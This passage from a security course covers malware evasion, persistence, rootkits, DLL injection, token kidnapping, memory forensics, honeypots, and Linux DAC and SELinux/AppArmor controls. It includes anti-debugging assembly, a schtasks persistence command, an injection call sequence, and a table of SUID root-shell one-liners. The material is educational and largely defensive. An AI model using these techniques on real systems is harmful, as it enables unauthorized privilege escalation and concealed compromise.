   - *CPUID Hypervisor Signature*: Emits the `CPUID` instruction with `EAX=1`. If bit 31 of `ECX` is set, a hypervisor is present. Emitting `CPUID` with `EAX=0x40000000` returns vendor strings like "VMwareVMware", "Microsoft Hv", or "KVMKVMKVM".
   - *Human Interaction Verification*: Automated analysis sandboxes typically execute samples for 2 to 5 minutes with zero mouse movement. Malware sleeps for 20 minutes (`Sleep()`) or verifies that the mouse cursor moves at least 200 pixels before detonating.

---

## 7.4 System Persistence Mechanisms

To ensure survival across operating system reboots and user logoffs, malware anchors itself into persistent operating system structures:

```
Persistence Mechanisms across the Operating System Spectrum:
+---------------------------------------------------------------------------------+
| Persistence Layer   | Implementation & Location                                 |
+---------------------+-----------------------------------------------------------+
| Firmware / Hardware | UEFI / BIOS Flash Infection (SPI flash bootkits)          |
| Hypervisor Layer    | Rogue Hypervisor beneath host OS (Type 0 persistence)     |
| Windows Registry    | HKLM\Software\Microsoft\Windows\CurrentVersion\Run   |
|                     | HKCU\Software\Microsoft\Windows\CurrentVersion\Run   |
|                     | HKLM\System\CurrentControlSet\Services (Driver setup)  |
| Windows Services    | Service Control Manager (SCM) background system service   |
| Scheduled Tasks     | schtasks /create /tn "SecurityUpdate" /tr "malware.exe"   |
| Startup Folders     | %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup|
| WMI Event Filters   | WMI permanent event subscription (__EventFilter)          |
| DLL Hijacking       | Replacing legitimate DLL in application loading search path|
+---------------------------------------------------------------------------------+
```

---
---

## 7.5 Deep Low-Level Anti-Debugging: PEB & Kernel Flags

### 1. The Process Environment Block (PEB) Inspection
Adversaries query the PEB without invoking Win32 APIs (which might be hooked by EDR solutions):
```assembly
; Reading PEB BeingDebugged on 32-bit Windows
mov eax, fs:[0x30]        ; FS register points to TEB; offset 0x30 is pointer to PEB
movzx eax, byte [eax + 2] ; Offset 0x02 is BeingDebugged byte
test eax, eax
jnz debugger_detected

; Reading PEB BeingDebugged on 64-bit Windows
mov rax, gs:[0x60]        ; GS register points to TEB; offset 0x60 is pointer to PEB
movzx eax, byte [rax + 2]
test eax, eax
jnz debugger_detected
```

### 2. The `NtGlobalFlag` Signature
When a process is launched under a debugger, the Windows heap manager sets specific flags in the `NtGlobalFlag` field (`PEB + 0x68` in 32-bit, `PEB + 0xBC` in 64-bit):
- `FLG_HEAP_ENABLE_TAIL_CHECK` (`0x10`): Appends canary patterns to heap allocations.
- `FLG_HEAP_ENABLE_FREE_CHECK` (`0x20`): Verifies memory blocks upon deallocation.
- `FLG_HEAP_VALIDATE_PARAMETERS` (`0x40`): Validates parameters passed to heap functions.
- If `NtGlobalFlag == (0x10 | 0x20 | 0x40) == 0x70`, an attached debugger is flagged.

---

# Module 8: Advanced Malware Capabilities & Privilege Escalation

## 8.1 Rootkit Architectures: User-Mode vs. Kernel-Mode

A **Rootkit** is a specialized stealth cloaking technology designed to conceal the presence of unauthorized running processes, network sockets, files, and registry keys from the operating system, antivirus tools, and system administrators.

```mermaid
graph TD
    subgraph Rootkit_Taxonomy["User-Mode vs Kernel-Mode Rootkit Hooking Topologies"]
        direction TB
        
        subgraph User_Space["User Space (Ring 3)"]
            TaskMgr["Taskmgr.exe / Process Explorer"]
            subgraph User_Rootkit["User-Mode Rootkit Hooking"]
                IAT_Hook["1. IAT Hooking<br/>Modifies Import Address Table pointers in memory"]
                Inline_Hook["2. Inline API Hooking (Detours)<br/>Overwrites first 5 bytes of target function with JMP opcode"]
            end
            TaskMgr --> IAT_Hook
            TaskMgr --> Inline_Hook
            IAT_Hook --> NTDLL["ntdll.dll (NtQuerySystemInformation)"]
            Inline_Hook --> NTDLL
        end
        
        subgraph Kernel_Space["Kernel Space (Ring 0)"]
            NTDLL -->|"Syscall (sysenter / syscall)"| SSDT["System Service Descriptor Table (SSDT)"]
            
            subgraph Kernel_Rootkit["Kernel-Mode Rootkit Hooking"]
                SSDT_Hook["3. SSDT Hooking<br/>Replaces kernel system call function pointers in SSDT"]
                DKOM["4. Direct Kernel Object Manipulation (DKOM)<br/>Unlinks EPROCESS block from kernel doubly-linked active process list!"]
            end
            
            SSDT --> SSDT_Hook
            SSDT_Hook --> KernelProc["Real Kernel Process Handlers"]
            DKOM -.->|"Manipulates directly"| KernelProc
        end
    end
    
    style Rootkit_Taxonomy fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style User_Rootkit fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Kernel_Rootkit fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
```

### Hooking & Cloaking Mechanisms
1. **User-Mode Rootkits (Ring 3)**:
   - Operate inside the virtual address space of user processes.
   - *Import Address Table (IAT) Hooking*: When an executable links to an external DLL, it resolves function pointers through the IAT. A user-mode rootkit replaces the function pointer of `NtQuerySystemInformation` in the IAT with a pointer to its malicious filter function. When Task Manager queries running processes, the rootkit intercepts the returned array, deletes its own process record, and returns the scrubbed list.
   - *Inline Hooking (Detours / Trampolines)*: Replaces the first 5 bytes (the function prologue, e.g., `mov edi, edi; push ebp; mov ebp, esp`) of the target API function in memory with an unconditional `JMP` instruction directing execution to the rootkit's hook.
2. **Kernel-Mode Rootkits (Ring 0)**:
   - Execute with supreme architectural privilege in the Windows or Linux kernel.
   - *SSDT Hooking (System Service Descriptor Table)*: The SSDT contains kernel dispatch function pointers. Hooking the SSDT allows the rootkit to filter all system calls system-wide before user mode ever receives data. (Mitigated in 64-bit Windows via Kernel Patch Protection / PatchGuard).
   - *Direct Kernel Object Manipulation (DKOM)*: Every active process in the Windows kernel is represented by an `EPROCESS` structure. All `EPROCESS` blocks are linked in a circular, doubly-linked list (`ActiveProcessLinks.Flink` and `Blink`). A DKOM rootkit modifies the pointers of the adjacent processes to point to each other, unlinking the rootkit's `EPROCESS` from the list. The process remains fully scheduled by the CPU dispatcher, but disappears completely from all enumeration APIs.

---

## 8.2 DLL Injection Techniques

**DLL Injection** is an exploitation technique that forces a running remote process to load an arbitrary Dynamic Link Library (DLL) into its own virtual address space, executing malicious code under the legitimate process's security context.

```mermaid
sequenceDiagram
    autonumber
    participant Injector as Attacker Injector Process
    participant Kernel as Windows Kernel
    participant Target as Target Legitimate Process (e.g., explorer.exe)

    Injector->>Kernel: OpenProcess(PROCESS_ALL_ACCESS, target_PID)
    Kernel-->>Injector: Returns Process Handle (hProcess)
    Injector->>Kernel: VirtualAllocEx(hProcess, MEM_COMMIT, PAGE_READWRITE)
    Kernel-->>Injector: Allocates remote memory buffer (pRemoteBuf)
    Injector->>Kernel: WriteProcessMemory(hProcess, pRemoteBuf, "C:\malware.dll")
    Injector->>Kernel: GetProcAddress("kernel32.dll", "LoadLibraryW")
    Kernel-->>Injector: Returns address of LoadLibraryW (Same across processes!)
    Injector->>Kernel: CreateRemoteThread(hProcess, NULL, 0, LoadLibraryW, pRemoteBuf, 0, NULL)
    Note over Target: Remote Thread spawns inside explorer.exe executing LoadLibraryW("C:\malware.dll")!
    Target->>Target: Injected DLL DllMain() executes with explorer.exe privileges!
```

### Injection Variants
1. **Classic DLL Injection (`CreateRemoteThread`)**:
   - Outlined in the diagram above. Requires `PROCESS_ALL_ACCESS` permissions.
2. **AppInit_DLLs Registry Injection**:
   - The registry key `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs` allows specifying custom DLLs that are automatically loaded into *every* user-mode GUI process that links with `user32.dll`.
3. **Reflective DLL Injection (Stephen Fewer Technique)**:
   - Traditional DLL injection leaves artifacts on the hard disk and registers the DLL in the target process's `InLoadOrderModuleList` (visible to PEB inspection).
   - *Reflective Injection* writes the raw PE binary of the DLL directly into remote process memory from a memory buffer. The DLL contains an exported bootstrapping function (`ReflectiveLoader`) that manually maps its own sections, resolves imports, executes base relocations, and invokes `DllMain` entirely in memory without ever calling `LoadLibrary` or touching disk.

---

## 8.3 Token Kidnapping & Windows Privilege Escalation

Windows services frequently execute under service accounts (such as `NT AUTHORITY\NETWORK SERVICE` or `LOCAL SERVICE`). While these accounts lack administrative powers, they frequently hold the sensitive **`SeImpersonatePrivilege`** or **`SeAssignPrimaryTokenPrivilege`**.

```mermaid
graph TD
    subgraph Token_Kidnapping_Flow["Token Kidnapping Privilege Escalation Workflow"]
        direction TB
        
        Compromised["Service Process Compromised (NETWORK SERVICE)<br/>Possesses SeImpersonatePrivilege"]
        NamedPipe["Attacker creates local Named Pipe (\\.\pipe\privesc)"]
        Coerce["Coerces SYSTEM Service (e.g., Print Spooler / RPC) to connect to Pipe"]
        Impersonate["Invokes ImpersonateNamedPipeClient()<br/>Temporarily adopts SYSTEM Token on thread!"]
        Duplicate["DuplicateTokenEx() creates Primary SYSTEM Token"]
        CreateProc["CreateProcessWithTokenW(hToken, 'cmd.exe')<br/>Spawns interactive shell as NT AUTHORITY\SYSTEM!"]
        
        Compromised --> NamedPipe --> Coerce --> Impersonate --> Duplicate --> CreateProc
    end
    
    style Token_Kidnapping_Flow fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style Compromised fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style Impersonate fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style CreateProc fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### Exploitation Mechanics
- **Token Impersonation**: A thread executing in a service process can call `ImpersonateNamedPipeClient()` or `ImpersonateLoggedOnUser()` to adopt the security identity of an incoming client connection.
- Tools like **RottenPotato**, **JuicyPotato**, and **PrintSpoofer** coerce high-privilege system services (such as the DCOM activator or Print Spooler) into authenticating against a local named pipe or RPC endpoint controlled by the low-privileged process, instantly capturing a token for `NT AUTHORITY\SYSTEM`.

---

---

# Module 9: Memory Forensics, Threat Detection & Honeypots

## 9.1 Memory Forensics: The Volatility Framework & VAD Analysis

When investigating advanced persistent threats (APTs) deploying fileless malware, reflective DLL injection, or unlinked DKOM processes, disk forensics reveals zero evidence. The ground truth of system state resides in **volatile physical memory (RAM)**.

```mermaid
graph TD
    subgraph Memory_Forensics_Workflow["Volatile Memory Forensics & Rootkit Detection Pipeline"]
        direction TB
        
        Dump["Physical Memory Acquisition<br/>(Raw RAM Dump: WinPmem, LiME, VMware .vmem)"]
        
        subgraph Volatility_Engine["Volatility Analysis Engine"]
            Detect_OS["imageinfo / windows.info (Identifies OS Profile & Kernel DTB)"]
            
            subgraph Process_Triage["Cross-Checking Process Enumeration"]
                PsList["pslist: Walks ActiveProcessLinks<br/>(Standard doubly-linked list)"]
                PsScan["psscan: Scans raw RAM for EPROCESS pool tags<br/>(Finds unlinked / hidden processes!)"]
                PsXView["psxview: Cross-references 7 process sources<br/>(Flags DKOM anomalies: False in pslist, True in psscan)"]
            end
            
            subgraph Deep_Analysis["Deep Memory Inspection"]
                Malfind["malfind: Scans VAD trees for PAGE_EXECUTE_READWRITE memory containing MZ headers or shellcode"]
                VadDump["vaddump: Extracts injected code segments directly from RAM"]
            end
        end
        
        Dump --> Detect_OS --> Process_Triage --> Deep_Analysis
    end
    
    style Memory_Forensics_Workflow fill:#f9f9f9,stroke:#34495e,stroke-width:2px;
    style Process_Triage fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Deep_Analysis fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
```

### Core Volatility Analysis Modules
1. **Process Discovery Cross-Validation (`psxview`)**:
   - DKOM rootkits unlink processes from `ActiveProcessLinks` (making them invisible to `pslist` and Task Manager).
   - `psscan` ignores the linked list, conducting heuristic signature scanning across raw memory bytes searching for `_EPROCESS` pool tag headers (`Proc`).
   - If `psxview` reveals a process marked `False` in `pslist` but `True` in `psscan`, a DKOM rootkit is actively hiding a malicious process.
2. **Virtual Address Descriptor (VAD) Tree Analysis (`malfind`)**:
   - Every Windows process maintains a self-balancing binary search tree (the **VAD Tree**) tracking allocated virtual memory ranges.
   - Legitimate Windows binaries map executable code (`.text`) with `PAGE_EXECUTE_READ` attributes backed by a file on disk.
   - Attackers injecting shellcode allocate private memory marked `PAGE_EXECUTE_READWRITE` (RWX) without backing disk files. The `malfind` plugin traverses the VAD tree searching for RWX allocations containing executable opcodes or PE headers (`MZ`).

---

## 9.2 Deception Technologies: Honeypots, Honeynets & Honeytokens

**Deception technology** shifts the asymmetrical advantage of cyber warfare from the attacker to the defender. While defenders traditionally had to secure every vulnerability, deception creates an environment where an attacker touching a single false asset trips an alarm.

```mermaid
graph TD
    subgraph Deception_Taxonomy["Taxonomy of Deception Systems"]
        direction TB
        
        subgraph Low_Interaction["1. Low-Interaction Honeypots (e.g., Honeyd, Dionaea)"]
            LI_Desc["Simulates listening network services (FTP, SMB, SSH)<br/>• Captures automated exploit payloads & port scans<br/>• Zero real operating system execution; zero risk of compromise"]
        end
        
        subgraph High_Interaction["2. High-Interaction Honeypots (e.g., Real VM Sandboxes)"]
            HI_Desc["Deploys full, real operating systems and applications<br/>• Monitored via out-of-band hypervisor / network taps<br/>• Captures novel zero-day exploits, manual hacker behavior<br/>• High operational maintenance; risk of use as launchpad"]
        end
        
        subgraph Honeytokens["3. Honeytokens / Canaries"]
            HT_Desc["Fictitious data assets planted across production systems:<br/>• Fake AWS API keys in code repos (Canary Tokens)<br/>• Fake database administrator credentials<br/>• Phony sensitive documents with phone-home beacons"]
        end
    end
    
    style Deception_Taxonomy fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style Low_Interaction fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style High_Interaction fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style Honeytokens fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

---
---

## 9.3 Practical Memory Forensics Command Reference (Volatility 3)

The following master table provides the essential forensic triage commands for volatile RAM analysis:

| Forensic Objective | Volatility 3 Command | Analytical Target & Anomaly Detection |
| :--- | :--- | :--- |
| **Kernel & OS Identification** | `vol -f mem.raw windows.info` | Discovers architecture, build number, and Kernel Directory Table Base (CR3). |
| **Process Tree Enumeration** | `vol -f mem.raw windows.pstree` | Displays parent-child process relationships (detects abnormal parent processes). |
| **DKOM Rootkit Detection** | `vol -f mem.raw windows.psscan` | Scans raw memory pool tags to find unlinked / hidden processes. |
| **Cross-Validation** | `vol -f mem.raw windows.psxview` | Flags discrepancies across 7 internal kernel process structures. |
| **Injected Code Detection** | `vol -f mem.raw windows.malfind` | Scans VAD trees for unbacked `PAGE_EXECUTE_READWRITE` memory containing code. |
| **Network Sockets** | `vol -f mem.raw windows.netscan` | Enumerates active and terminated TCP/UDP endpoints, foreign IPs, and PIDs. |
| **Command Line Arguments** | `vol -f mem.raw windows.cmdline` | Extracts process launch arguments (detects obfuscated PowerShell commands). |
| **Dump Injected PE Executable**| `vol -f mem.raw windows.vaddump --pid <PID>` | Dumps injected memory segments to disk for reverse engineering. |

---

# Module 10: Linux Security Fundamentals: Discretionary Access Control (DAC)

## 10.1 The Linux Multi-User Security Philosophy & Philosophy of "Everything is a File"

The Linux operating system derives its architectural security lineage from UNIX. Linux enforces isolation through two fundamental axioms:
1. **Multi-User Isolation**: Every process executing on the system is owned by a specific **User ID (UID)** and **Group ID (GID)**. Resource permissions are strictly partitioned between different user accounts.
2. **"Everything is a File"**: Hardware devices (disks, terminals, graphics cards), network sockets, inter-process communication pipes, and kernel state structures (`/proc`, `/sys`) are represented as nodes within a unified hierarchical filesystem tree. Access to system hardware is governed by standard filesystem permissions.

```
Linux User ID Hierarchy:
  UID 0:        root (Superuser / Omnipotent Administrative Authority)
  UID 1 - 999:  System Accounts (daemon, bin, www-data, sshd, nobody)
  UID 1000+:    Standard Interactive User Accounts (alice, bob, developer)
```

---

## 10.2 Standard File Permissions & Octal Representation

Linux **Discretionary Access Control (DAC)** associates a 9-bit permission triplet with every file and directory, dividing subjects into three distinct classes:
- **User / Owner (`u`)**: The specific user account that owns the file.
- **Group (`g`)**: The group identity assigned to the file.
- **Others / World (`o`)**: All other user accounts on the operating system.

```mermaid
graph LR
    subgraph Permission_Bitmask["Anatomy of Linux 12-Bit Permission Mask"]
        direction TB
        Special["Special Bits [11:9]<br/>SUID (4) | SGID (2) | Sticky (1)"]
        User["User Permissions [8:6]<br/>Read (4) | Write (2) | Execute (1)"]
        Group["Group Permissions [5:3]<br/>Read (4) | Write (2) | Execute (1)"]
        Other["Other Permissions [2:0]<br/>Read (4) | Write (2) | Execute (1)"]
        
        Special --- User --- Group --- Other
    end
    
    style Permission_Bitmask fill:#f8f9f9,stroke:#34495e,stroke-width:2px;
    style Special fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style User fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Group fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style Other fill:#e8f8f5,stroke:#27ae60,stroke-width:2px;
```

### Semantic Meaning: Files vs. Directories
The operational behavior of the standard permission bits differs fundamentally between regular files and directories:

| Permission Bit | Regular File Semantic | Directory Semantic |
| :---: | :--- | :--- |
| **`r` (Read, Value: 4)** | Permits reading file contents (e.g., `cat`, `less`). | Permits listing files contained in the directory (e.g., `ls`). |
| **`w` (Write, Value: 2)**| Permits modifying or overwriting file contents. | Permits **creating, deleting, or renaming files** within the directory (even files owned by other users!). |
| **`x` (Execute, Value: 1)**| Permits running the file as a program or script. | Permits **entering / traversing** the directory (e.g., `cd`) and accessing metadata of files inside. |

---

## 10.3 Special Permissions: SUID, SGID & The Sticky Bit

In addition to standard read, write, and execute bits, Linux incorporates three high-order **Special Permission Bits**:

```mermaid
graph TD
    subgraph Special_Permissions_Mechanics["Operational Mechanics of Special Permissions"]
        direction TB
        
        subgraph SUID_Box["1. Set User ID (SUID - Value: 4000, 's')"]
            SUID_Desc["When an executable with SUID is run, the process executes with the privileges of the FILE OWNER (usually root), NOT the executing user!<br/>Example: /usr/bin/passwd (Allows normal users to edit /etc/shadow)"]
        end
        
        subgraph SGID_Box["2. Set Group ID (SGID - Value: 2000, 's')"]
            SGID_Desc["• On Executables: Process adopts privileges of the FILE GROUP.<br/>• On Directories: New files created inside automatically inherit the DIRECTORY'S GROUP ownership (Crucial for shared team folders)."]
        end
        
        subgraph Sticky_Box["3. Sticky Bit (Value: 1000, 't')"]
            Sticky_Desc["Applied to world-writable directories (e.g., /tmp).<br/>Restricts file deletion: Users can ONLY delete or rename files that they personally own, preventing users from deleting each other's files!"]
        end
    end
    
    style Special_Permissions_Mechanics fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style SUID_Box fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style SGID_Box fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style Sticky_Box fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### Security Hazards of SUID Binaries & Privilege Escalation
SUID binaries owned by `root` are primary targets for local privilege escalation:
- If a SUID binary contains a buffer overflow, format string vulnerability, or command injection flaw, an unprivileged local attacker can exploit it to spawn a root shell.
- **GTFOBins Exploitation**: If administrative utilities (e.g., `nmap`, `vim`, `find`, `bash`, `python`) are inadvertently granted SUID root permissions:
  ```bash
  # Exploiting SUID on find to gain immediate root:
  find . -exec /bin/sh -p \; -quit
  ```
- **Auditing Command**: Defenders audit the system for rogue SUID binaries using:
  ```bash
  find / -perm -4000 -type f -exec ls -la {} \; 2>/dev/null
  ```

---

## 10.4 The Umask & POSIX Access Control Lists (ACLs)

### 1. Default Creation Permissions & `umask`
When a process creates a new file or directory, the initial permission is determined by masking the default base mode (`0666` for files, `0777` for directories) with the process's **`umask`** (user file-creation mode mask):
$$\text{Created File Mode} = 0666 \land (\neg \text{umask})$$
$$\text{Created Directory Mode} = 0777 \land (\neg \text{umask})$$
- A standard secure server `umask` of `0027` results in:
  - Files: `0666 - 0027 = 0640` (`-rw-r-----` : Owner read/write, Group read, Others zero permissions).
  - Directories: `0777 - 0027 = 0750` (`drwxr-x---`).

### 2. POSIX Access Control Lists (ACLs)
Standard DAC permits specifying permissions for only one owner and one group. In enterprise environments, files often require granular access rules for multiple disparate users and groups. **POSIX ACLs** extend DAC without requiring kernel modifications.

```bash
# Inspecting ACLs on a sensitive file:
getfacl /var/log/audit/audit.log

# Granting user 'developer' read and write access without altering file group:
setfacl -m u:developer:rw /var/log/audit/audit.log

# Setting default ACLs on a directory (automatically inherited by future children):
setfacl -d -m g:finance:r-x /shared/finance_reports
```

---
---

## 10.5 Linux Privilege Escalation via GTFOBins & SUID Exploitation

When administrative utilities are mistakenly granted the SUID bit (`chmod u+s /path/to/binary`), unprivileged users can manipulate their interactive features to spawn root shells:

| Binary | Exploitation Vector / Command | Escalation Mechanism |
| :--- | :--- | :--- |
| **`/usr/bin/find`** | `find . -exec /bin/sh -p \; -quit` | Executes external command via `-exec` while preserving SUID root permissions. |
| **`/usr/bin/vim`** | `vim -c ':!/bin/sh'` | Escapes interactive editor to spawn subshell in root context. |
| **`/usr/bin/awk`** | `awk 'BEGIN {system("/bin/sh")}'` | Leverages embedded awk scripting engine to execute shell. |
| **`/usr/bin/python`** | `python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'` | Invokes `execl` system call directly with preserved privileges. |
| **`/usr/bin/cp`** | `cp /bin/sh /tmp/rootsh; chmod 4755 /tmp/rootsh` | Copies shell or overwrites `/etc/passwd` to insert a new root user record. |
| **`/usr/bin/less`** | `less /etc/hosts` then enter `!/bin/sh` | Pager command breakout feature drops directly into elevated shell. |

### Hardening Against SUID Exploits
1. **Mounting Partitions with `nosuid`**:
   - In `/etc/fstab`, mount user-writable partitions (e.g., `/tmp`, `/var/tmp`, `/home`) with the `nosuid` mount flag. The kernel will refuse to execute SUID binaries stored on those partitions.
2. **Auditing Cron Jobs & SUID Lists**:
   - Automated scripts must periodically scan system mounts to detect unauthorized SUID additions:
     ```bash
     find / -xdev -type f -perm -4000 -exec ls -ld {} + > /root/golden_suid_manifest.txt
     ```

---

# Module 11: Linux Mandatory Access Control: SELinux & AppArmor

## 11.1 The Limitation of DAC & The Need for Mandatory Access Control (MAC)

Standard Linux Discretionary Access Control (DAC) suffers from a catastrophic architectural flaw: **The Omnipotent Root Flaw**.
- In DAC, if an attacker compromises a daemon executing as `root` (or exploits a web server vulnerability where the process owner has write permissions to files), the attacker inherits the full permissions of the resource owner.
- The resource owner possesses the complete "discretion" to modify file permissions, grant public access, or execute destructive commands.
- Under DAC, a vulnerability in a single network service (e.g., Apache HTTP server or BIND DNS) executing as root gives the attacker full control over the entire operating system, enabling them to wipe disks, read `/etc/shadow`, install kernel rootkits, or disable firewall rules.

**Mandatory Access Control (MAC)** solves this vulnerability by enforcing a system-wide security policy defined strictly by the security administrator and hardcoded into the kernel:
- **Even the `root` superuser is bound by MAC policy!**
- If a root-owned web server process is compromised, MAC rules prevent it from reading user home directories, accessing `/etc/shadow`, or binding to unauthorized ports.

```mermaid
graph TD
    subgraph DAC_vs_MAC_Comparison["Security Boundary Comparison: DAC vs MAC"]
        direction LR
        
        subgraph DAC_Model["1. Discretionary Access Control (DAC)"]
            Root_App["Compromised Apache Daemon<br/>(Executing as UID 0: root)"]
            Root_App -->|"Allowed: Root has full access"| Shadow1["/etc/shadow"]
            Root_App -->|"Allowed: Root can write"| Bin1["/bin/bash"]
            Root_App -->|"Allowed: Unrestricted"| SSH_Keys1["/root/.ssh/id_rsa"]
        end
        
        subgraph MAC_Model["2. Mandatory Access Control (SELinux)"]
            Confined_App["Compromised Apache Daemon<br/>(Process Label: httpd_t)"]
            Confined_App -.->|"STRICTLY BLOCKED: AVC Denial"| Shadow2["/etc/shadow (shadow_t)"]
            Confined_App -.->|"STRICTLY BLOCKED: AVC Denial"| Bin2["/bin/bash (bin_t)"]
            Confined_App -->|"ALLOWED by Policy"| HTML["/var/www/html (httpd_sys_content_t)"]
        end
    end
    
    style DAC_Model fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style MAC_Model fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
    style HTML fill:#a9dfbf,stroke:#2ecc71,stroke-width:2px;
```

---

## 11.2 The Linux Security Modules (LSM) Kernel Framework

Rather than hardcoding a single security paradigm, the Linux kernel incorporates the **Linux Security Modules (LSM)** framework.

```mermaid
graph TD
    subgraph LSM_Pipeline["Linux Security Modules (LSM) Hooking Architecture"]
        direction TB
        
        Syscall["User-Space Application emits System Call (e.g., open('/etc/shadow'))"]
        Kernel_Entry["Kernel Syscall Dispatcher (sys_open)"]
        DAC_Check{"Standard DAC Check Passed?<br/>(File Permissions rwxr-xr-x)"}
        LSM_Hook["LSM Kernel Hook: security_file_open()<br/>(Invoked immediately after DAC passes)"]
        MAC_Policy{"Active LSM Engine (SELinux / AppArmor)<br/>Does Policy Permit Subject to Access Object?"}
        Hardware_Access["VFS Layer Grants Access to Inode / Data"]
        EACCES["System Call Fails: EACCES (Permission Denied)"]
        
        Syscall --> Kernel_Entry --> DAC_Check
        DAC_Check -->|NO| EACCES
        DAC_Check -->|YES| LSM_Hook --> MAC_Policy
        MAC_Policy -->|PERMIT| Hardware_Access
        MAC_Policy -->|DENY| EACCES
    end
    
    style LSM_Pipeline fill:#f9f9f9,stroke:#34495e,stroke-width:2px;
    style DAC_Check fill:#fef9e7,stroke:#f39c12,stroke-width:2px;
    style MAC_Policy fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Hardware_Access fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
    style EACCES fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
```

### LSM Hook Mechanics
- LSM inserts security hooks at critical decision points across the Linux virtual filesystem (VFS), process lifecycle management, socket communications, and IPC.
- Whenever a user process invokes a system call, the kernel first executes standard DAC checks.
- If DAC passes, the kernel invokes the registered **LSM hook** (e.g., `security_file_open()`, `security_socket_create()`).
- The active MAC security engine (SELinux, AppArmor, or Smack) evaluates its internal security policy and returns either `0` (allow) or `-EACCES` (deny).

---

## 11.3 SELinux (Security-Enhanced Linux) Architecture & Policy

Originally designed by the United States National Security Agency (NSA) and Red Hat, **SELinux** is a comprehensive, Type Enforcement-based Mandatory Access Control implementation.

### 1. SELinux Security Context Syntax
In SELinux, every process (subject) and every file, directory, socket, or device node (object) is stamped with an immutable cryptographic label called a **Security Context**:
$$\text{Security Context} = \text{user} : \text{role} : \text{type} : \text{level}$$

```
Example SELinux Contexts:
  Apache Web Server Process:   system_u:system_r:httpd_t:s0
  Web Content HTML File:       system_u:object_r:httpd_sys_content_t:s0
  User Shadow Password File:   system_u:object_r:shadow_t:s0
```

- **`user`**: The SELinux user identity (e.g., `system_u`, `unconfined_u`).
- **`role`**: The operational role (in Role-Based Access Control, e.g., `system_r`, `object_r`).
- **`type` (Domain / Type Enforcement)**: The primary mechanism of isolation. For processes, it is termed the **Domain** (e.g., `httpd_t`, `sshd_t`); for files, it is the **Type** (e.g., `httpd_sys_content_t`, `shadow_t`).
- **`level`**: Multi-Level Security / Multi-Category Security (MLS/MCS) sensitivity rating (e.g., `s0`, `s0:c0,c100`).

```mermaid
graph TD
    subgraph SELinux_AVC_Decision["SELinux Type Enforcement & Access Vector Cache (AVC) Engine"]
        direction TB
        
        Req["Process (Domain: httpd_t) attempts to open File (Type: shadow_t)"]
        AVC{"Is Decision Cached in<br/>Access Vector Cache (AVC)?"}
        PolicyDB{"Evaluate Policy Rules in Kernel DB:<br/>allow httpd_t shadow_t : file { read };"}
        
        Req --> AVC
        AVC -->|Cache Hit: Denied| LogDeny["Log AVC Denial to /var/log/audit/audit.log"]
        AVC -->|Cache Miss| PolicyDB
        
        PolicyDB -->|No Rule Exists: Implicit Deny| LogDeny
        PolicyDB -->|Rule Exists: Allow| AllowAccess["Update AVC & Grant Read Handle"]
        
        LogDeny --> EnforcingCheck{"Current Mode == Enforcing?"}
        EnforcingCheck -->|YES (Enforcing)| Block["Return -EACCES (Operation Aborted)"]
        EnforcingCheck -->|NO (Permissive)| AllowPermissive["Allow Operation (Audit Log Only)"]
    end
    
    style SELinux_AVC_Decision fill:#fdfefe,stroke:#2c3e50,stroke-width:2px;
    style AVC fill:#ebf5fb,stroke:#2980b9,stroke-width:2px;
    style Block fill:#fadbd8,stroke:#e74c3c,stroke-width:2px;
    style AllowAccess fill:#d4efdf,stroke:#27ae60,stroke-width:2px;
```

### 2. SELinux Operating Modes
- **Enforcing**: The default production mode. The security policy is actively enforced; unauthorized actions are blocked and logged.
- **Permissive**: The system operates without blocking unauthorized actions. Violations are allowed to proceed, but detailed audit denial messages are logged. (Essential for debugging and authoring new policies).
- **Disabled**: SELinux is completely unloaded from the kernel; zero labeling or protection is active.

### 3. Essential Administrative Commands

```bash
# Querying and switching active SELinux mode:
getenforce                  # Displays current status (Enforcing / Permissive)
setenforce 0                # Temporarily sets Permissive mode (runtime only)
setenforce 1                # Sets Enforcing mode

# Inspecting security labels:
ls -lZ /var/www/html/index.html   # Displays file security context
ps -eZ | grep nginx               # Displays process domain

# Relabeling and restoring context:
restorecon -vR /var/www/html      # Resets files to default policy labels
chcon -t httpd_sys_content_t file.txt # Temporarily modifies type label

# Managing SELinux Booleans (Policy toggles):
getsebool httpd_can_network_connect  # Checks if Apache can make outbound connections
setsebool -P httpd_can_network_connect on # Permanently enables boolean in policy

# Diagnosing and fixing AVC Denials:
ausearch -m avc -ts recent | audit2why   # Translates raw audit logs into human explanations
ausearch -m avc -ts recent | audit2allow -M my_custom_policy # Auto-generates policy module
```

---

## 11.4 AppArmor: Path-Based Mandatory Access Control

While SELinux relies on explicit inode labels stored in filesystem extended attributes (`xattr`), **AppArmor** (standard on Ubuntu, Debian, and openSUSE) implements a **path-based** Mandatory Access Control architecture.

### AppArmor Architecture & Profile Modes
- **Profiles**: Plaintext configuration files residing in `/etc/apparmor.d/` defining the file access paths, network sockets, and capabilities allowed for a specific binary executable (e.g., `/usr/sbin/tcpdump`).
- **Modes**:
